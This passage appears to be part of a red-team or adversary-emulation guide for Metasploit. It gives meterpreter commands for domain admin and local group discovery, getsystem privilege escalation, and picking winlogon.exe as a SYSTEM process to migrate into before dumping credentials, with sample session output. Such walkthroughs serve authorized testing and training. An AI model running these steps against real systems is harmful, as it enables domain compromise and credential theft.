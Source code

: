 *Execute these commands using a shell that is not SYSTEM but a domain user account*
```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...

meterpreter > shell

net group "enterprise admins" /domain
net group "domain admins" /domain
```

The third discovery task will look for local accounts and groups.

```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...

meterpreter > shell

whoami /groups
net view /all
```

## Local Privilege Escalation

The fourth group of tasks starts with becoming SYSTEM run the following in your meterpreter session:
```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...

meterpreter > getsystem 
```

After becoming system target a process to inject into, a good recommendation is winlogon.exe as it keeps SYSTEM priv and will stay active as well as make sure you are running a compatible architechure for dumping credentials later.
```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...

(List Processes with ps)

meterpreter > ps
```
Pick a process that has SYSTEM and is x64

```
Process List
============

 PID   PPID  Name                         Arch  Session  User                          Path
 ---   ----  ----                         ----  -------  ----                          ----

812   708   winlogon.exe                 x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
```
